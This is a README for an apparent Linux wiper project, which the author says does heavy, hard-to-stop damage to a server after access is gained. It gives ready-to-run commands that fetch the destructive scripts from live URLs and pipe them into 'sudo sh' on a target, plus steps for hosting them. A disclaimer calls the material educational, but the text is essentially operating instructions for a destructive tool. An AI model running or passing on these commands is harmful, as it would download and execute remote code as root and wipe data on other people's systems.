 # Why?

I was wondering whether I could do a whole lot of damage in a short span of time after gaining access to a linux server, that could go unnoticed and be unstoppable using CTRL-C. As it turns out, I could, [wanna see it in action? (CZ only)](https://youtu.be/Kg3er4F77OY)

# Usage

You can either:

- Host it on your own (see [Deployment](#deployment) ) and then execute `curl {YOUR_URL} | sudo sh` on the target machine.
- Execute `curl https://curl-sh-wipe-my-pc.tomasdiblik.cz/ | sudo sh` OR `curl https://curl-sh-wipe-my-pc.tomasdiblik.cz/basic.sh | sudo sh` on the target machine (if I see ANY usage for illegal purposes, I'm taking it down. Use in educational environments only please.)
- Just copy these scripts onto your target, and run `chmod +x advanced.sh && sudo ./advanced.sh` lol

# Deployment

1. Configure your server (I use nginx, so you can use the nginx-config provided), this step depends a lot on you tho ... If you're unable to do this, you probably also lack the knowledge required to understand the commands executed and I would advise you against hosting these scripts on your own.
2. - If you're on windows: `dos2unix.exe advanced.sh basic.sh`
   - and then: `scp -P {SSH_PORT} basic.sh advanced.sh LICENSE {USER}@{SERVER_IP}:{FULL_PATH_EXAMPLE_/www/curl-sh-wipe-my-pc}`
3. Go onto your target system and type `curl {YOUR_URL} | sudo sh`

# Legal notice:

The code provided is for educational purposes only and should not be used for any malicious or illegal activities. Any unauthorized use of this code is strictly prohibited and violators will be held liable for their actions. The code is intended to be used solely for the purpose of learning and understanding vulnerabilities and should not be executed on any systems without proper authorization and oversight. The author of this code takes no responsibility for any actions taken by any party using this code and is not liable for any damages or harm caused as a result of its use.
